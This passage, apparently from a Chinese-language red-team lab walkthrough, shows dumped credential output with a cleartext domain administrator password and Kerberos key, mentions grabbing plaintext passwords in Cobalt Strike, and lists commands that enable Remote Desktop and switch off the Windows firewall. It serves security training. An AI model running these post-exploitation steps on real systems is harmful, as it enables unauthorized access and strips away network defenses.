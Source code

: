 ```
Administrator  GOD     hongrisec@2019

kerberos credentials
====================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  GOD.ORG  hongrisec@2019
stu1$          GOD.ORG  41 bf 55 f8 6e c5 9e 7d 27 6e ea 1e 29 be 7e 99 df 0d b0 bc 39 8b 3a 2a 1f 09 e2 ab 6c 83 f2 28 68 7f b3 5
                        7 a9 e4 e4 8d 5f 2c 3c 7d 88 dd 52 a9 b4 26 ea 9f 46 74 b2 1d 15 45 81 e0 ea 25 fa a8 ef e5 cd 3f 0d 35 44
                         b1 af 9c d8 8e e1 31 28 a2 02 1d 2d 5b 3c 01 d2 35 13 8b ff 4f 46 da 4f b7 d5 d4 e6 6b 08 20 c9 4f 46 83
                        28 cc e8 4b cb f3 60 0f fd 7c 1e 1e 2f 1f bb 8a dc f8 5b be d8 b4 d0 cd f9 02 e1 c0 56 23 c7 2d c2 69 76 7
                        0 94 b5 cb d5 c2 90 98 52 59 1b d5 2a bd bc 08 b0 56 45 69 c3 33 33 4d 00 60 3c 8c 41 b9 c9 00 ef 75 ac 3c
                         2d 8f cc 4b 90 4a a6 08 e5 4d eb 0a f7 32 d9 81 2e 62 aa 68 65 fd e6 d2 a4 b0 4a 52 fd 63 4f 8b 33 bc 69
                        65 33 a4 c7 3f 4a 37 a5 ce ea ed b5 07 bc 2a 4f b4 4f 3b c0 ca b8 34 d2 1b 47 f7 f9
```

> 可得密码：hongrisec@2019



#### 法二：CS

![image-20220814170532122](./1.assets/image-20220814170532122.png)

然后再点击"抓取明文密码"即可。



### 启用远程桌面

#### 法一：CMD

```bash
netstat -ano | findstr "3389"						# 查看端口3389是否开启
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本
```

![](./1.assets/image-20220814173528143.png)
